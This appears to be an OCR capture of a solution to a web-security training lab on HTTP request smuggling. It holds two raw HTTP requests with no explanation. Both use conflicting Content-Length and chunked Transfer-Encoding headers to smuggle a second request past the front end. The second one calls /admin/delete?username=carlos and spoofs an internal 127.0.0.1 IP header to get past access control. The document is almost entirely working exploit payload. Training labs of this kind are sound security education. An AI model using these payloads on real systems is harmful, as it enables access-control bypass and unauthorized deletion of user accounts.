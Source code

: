 
```
POST / HTTP/1.1
Host: 0a35004a03751c2681f0a20e007200c6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

```
POST / HTTP/1.1
Host: 0a35004a03751c2681f0a20e007200c6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-FHGwVq-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```


